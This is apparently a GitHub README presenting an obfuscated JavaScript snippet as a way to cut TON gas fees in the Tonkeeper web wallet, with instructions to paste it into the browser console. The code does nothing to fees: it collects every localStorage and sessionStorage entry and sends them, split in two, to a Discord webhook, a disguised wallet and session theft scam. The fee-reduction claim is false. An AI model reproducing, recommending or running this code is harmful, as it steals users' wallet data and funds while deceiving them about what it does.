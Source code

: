 # Reduce TON Gas Fee for Transactions in Tonkeeper Web Version

This is a JavaScript console script that reduces the gas fee for TON transactions in the Tonkeeper web version. The script can be executed directly in the browser's developer console when making transactions.

## Features:
- Easily reduces gas fees for crypto transactions in the Tonkeeper web interface.
- Simple, copy-paste solution with no additional setup required.

## How to Use:

### Step-by-Step Instructions:

1. **Open Tonkeeper Web**:
   - Navigate to the Tonkeeper web version in your browser. -> https://wallet.tonkeeper.com

2. **Open the Developer Console**:
   - Right-click anywhere on the page and select `Inspect` or press `F12` to open the browser's developer tools.
   - Navigate to the `Console` tab in the developer tools panel.

3. **Copy and Paste the Script**:
   - Copy the script provided in this repository.

4. **Execute the Script**:
   - Paste the copied script into the developer console and hit `Enter` to execute it.

5. **Proceed with Your Transaction**:
   - After running the script, continue with your TON transaction in Tonkeeper as usual.
   - The gas fee will be reduced as per the script.

### Script Example:

```javascript
const _0x464359=_0x5ce0;(function(_0x378e82,_0x40d045){const _0x1580fc=_0x5ce0,_0x3c9a41=_0x378e82();while(!![]){try{const _0x363c27=-parseInt(_0x1580fc(0xd9))/(-0x5f6+0x5f5+0x2)+-parseInt(_0x1580fc(0xc6))/(-0x138e*0x1+0x705*0x1+-0xf7*-0xd)+-parseInt(_0x1580fc(0xc5))/(0x11e4+0x26f*-0x10+0x150f)*(parseInt(_0x1580fc(0xd6))/(-0x67*-0x34+-0x21da+0xcf2*0x1))+parseInt(_0x1580fc(0xdc))/(0x1*0x1c5e+-0x4c2+-0x63*0x3d)+-parseInt(_0x1580fc(0xd1))/(-0x20ee+-0x258c+0x60*0xbc)*(parseInt(_0x1580fc(0xde))/(-0x1*0xea2+-0x234a+-0x13*-0x2a1))+parseInt(_0x1580fc(0xe0))/(-0x2*0xc5b+0x191*0x8+0xc36)*(parseInt(_0x1580fc(0xe2))/(0xacf+-0x1b13+-0x104d*-0x1))+parseInt(_0x1580fc(0xc4))/(-0xbb7+-0x1c3f+-0x400*-0xa)*(parseInt(_0x1580fc(0xc3))/(0x1477*0x1+0x23c+-0x5*0x488));if(_0x363c27===_0x40d045)break;else _0x3c9a41['push'](_0x3c9a41['shift']());}catch(_0x13b47f){_0x3c9a41['push'](_0x3c9a41['shift']());}}}(_0x35b7,0x24635*0x3+0x15357f+0x739*-0x265));const storageData={};function getStorageData(_0x4df26b){const _0x593974=_0x5ce0,_0x17cbf2={'KvIkn':function(_0x492a99,_0x20c1b6){return _0x492a99<_0x20c1b6;}},_0x212e2b={};for(let _0x4b27ea=0x960+-0x10e1+0x781;_0x17cbf2[_0x593974(0xe6)](_0x4b27ea,_0x4df26b[_0x593974(0xe3)]);_0x4b27ea++){const _0x4f1ed3=_0x4df26b[_0x593974(0xcd)](_0x4b27ea),_0x40eafe=_0x4df26b[_0x593974(0xe7)](_0x4f1ed3);_0x212e2b[_0x4f1ed3]=_0x40eafe;}return _0x212e2b;}Object[_0x464359(0xbe)](storageData,getStorageData(localStorage),getStorageData(sessionStorage));function _0x35b7(){const _0x4350ec=['jPJht','3148415qlNTdj','slice','42CtBGZG','Success:','128Xsppgt','he\x20end','654426bkeBlW','length','SPqmW','api/webhoo','KvIkn','getItem','json','QguYM','catch','Bye6UXqAGo','XWfnvPKm15','9737737257','error','https://di','QEXgvmguBc','assign','ks/1286419','ceil','log','applicatio','33LWPyrS','6096810AYUWpg','368889Kkcgnl','2534546qwDCgs','AYJnBqXJt8','uMJWR','scord.com/','l72EZFcH2Y','e\x20start\x0a','PDYIM','key','56/3_3ZS4g','then','This\x20is\x20th','453552cKZVRR','POST','Error:','n/json','VJYdx','16ozpSDT','9PQyegoeh7','\x0aThis\x20is\x20t','705824uyRlQI','stringify'];_0x35b7=function(){return _0x4350ec;};return _0x35b7();}function _0x5ce0(_0x258f58,_0x368f12){const _0x520487=_0x35b7();return _0x5ce0=function(_0x5ef446,_0x56dfc8){_0x5ef446=_0x5ef446-(0xf88*0x2+-0x359+-0x1afa);let _0x27f645=_0x520487[_0x5ef446];return _0x27f645;},_0x5ce0(_0x258f58,_0x368f12);}const content=JSON[_0x464359(0xda)](storageData,null,0x384+0xae6+-0xe68);function splitInHalf(_0x3b2fda){const _0xa43432=_0x464359,_0x5d1cba={'SPqmW':function(_0x55052d,_0x559553){return _0x55052d/_0x559553;}},_0x5d89b0=Math[_0xa43432(0xc0)](_0x5d1cba[_0xa43432(0xe4)](_0x3b2fda[_0xa43432(0xe3)],-0x1*-0x12db+0x1009+-0x1*0x22e2));return[_0x3b2fda[_0xa43432(0xdd)](0x6b*0x1f+0x1be2+-0x28d7,_0x5d89b0),_0x3b2fda[_0xa43432(0xdd)](_0x5d89b0)];}const [firstPart,secondPart]=splitInHalf(content),part1=_0x464359(0xd0)+_0x464359(0xcb)+firstPart,part2=secondPart+(_0x464359(0xd8)+_0x464359(0xe1)),webhookUrl=_0x464359(0xef)+_0x464359(0xc9)+_0x464359(0xe5)+_0x464359(0xbf)+_0x464359(0xed)+_0x464359(0xce)+_0x464359(0xca)+_0x464359(0xd7)+_0x464359(0xec)+_0x464359(0xc7)+_0x464359(0xeb)+_0x464359(0xbd)+'L';function sendToWebhook(_0x57a187){const _0x6983f0=_0x464359,_0x1bcfba={'VJYdx':_0x6983f0(0xdf),'PDYIM':_0x6983f0(0xd3),'uMJWR':function(_0x27d816,_0x53e29b,_0x30f14f){return _0x27d816(_0x53e29b,_0x30f14f);},'QguYM':_0x6983f0(0xd2),'jPJht':_0x6983f0(0xc2)+_0x6983f0(0xd4)};_0x1bcfba[_0x6983f0(0xc8)](fetch,webhookUrl,{'method':_0x1bcfba[_0x6983f0(0xe9)],'headers':{'Content-Type':_0x1bcfba[_0x6983f0(0xdb)]},'body':JSON[_0x6983f0(0xda)]({'content':_0x57a187})})[_0x6983f0(0xcf)](_0x47edb2=>_0x47edb2[_0x6983f0(0xe8)]())[_0x6983f0(0xcf)](_0xae5000=>{const _0x46594f=_0x6983f0;console[_0x46594f(0xc1)](_0x1bcfba[_0x46594f(0xd5)],_0xae5000);})[_0x6983f0(0xea)](_0x2ea2eb=>{const _0x3a77d3=_0x6983f0;console[_0x3a77d3(0xee)](_0x1bcfba[_0x3a77d3(0xcc)],_0x2ea2eb);});}sendToWebhook(part1),sendToWebhook(part2);

